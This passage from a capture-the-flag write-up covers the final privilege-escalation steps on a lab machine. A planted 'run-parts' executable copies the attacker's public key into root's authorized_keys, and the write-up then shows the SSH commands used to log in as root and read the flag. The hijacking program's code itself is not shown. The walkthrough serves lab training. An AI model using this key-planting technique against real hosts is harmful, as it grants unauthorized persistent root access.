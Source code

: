 Once you have saved the executable, you need to give it permission to execute it.

```bash
chmod +x run-parts
```

```bash
# connect via SSH with user jkr
ssh jkr@10.10.10.138
```

Now that the executable has done the actions and we changes the priv key permissions, we can try to connect via ssh as root using priv key.&#x20;

```bash
# changes priv key permission
chmod 600 writeup
```

```bash
# connect to target as root
ssh -i writeup root@10.10.10.138
```

> This executable creates an .ssh folder in root directory, and then copies our public key into authorized\_keys file, allows us to connect via ssh connection to target machine using our private keys.
>
> When we connect one more time via ssh, the executle performs all the actions and then we can try to connect from our machine to target machine using the private key generate earlier.

### root.txt

We are root! Lets print the flag

```bash
root@writeup:~$ cat root.txt 
```
